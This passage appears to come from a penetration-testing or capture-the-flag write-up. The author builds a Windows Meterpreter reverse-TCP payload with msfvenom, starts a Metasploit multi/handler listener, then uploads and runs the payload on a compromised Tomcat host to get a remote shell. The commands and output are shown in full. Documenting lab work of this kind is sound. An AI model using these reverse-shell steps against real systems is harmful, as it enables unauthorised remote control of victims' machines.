 Next, I need to create a windows meterpreter using `msfvenom`. Simply ran `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.200.2 LPORT=5555 -f exe > meterpreter.exe`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.200.2 LPORT=5555 -f exe > meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes

$ file meterpreter.exe 
meterpreter.exe: PE32+ executable (GUI) x86-64, for MS Windows
```

Now I have a Windows executable ready to go. Next, I used `exploit/multi/handler` to handle the exploit launched outside of the framework. I configured the handler exactly same as the configuration I used to create the Windows binary Meterpreter. Then I ran `exploit`.

```
$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.200.2:5555
```

After that, I went back to other Meterpreter. I uploaded the Windows binary, spawned a shell and ran the binary.

```
meterpreter > upload meterpreter.exe
[*] uploading  : meterpreter.exe -> meterpreter.exe
[*] Uploaded -1.00 B of 7.00 KiB (-0.01%): meterpreter.exe -> meterpreter.exe
[*] uploaded   : meterpreter.exe -> meterpreter.exe
meterpreter > shell
Process 4 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 8.5>meterpreter.exe
meterpreter.exe
```

Now I have Windows Meterpreter running.
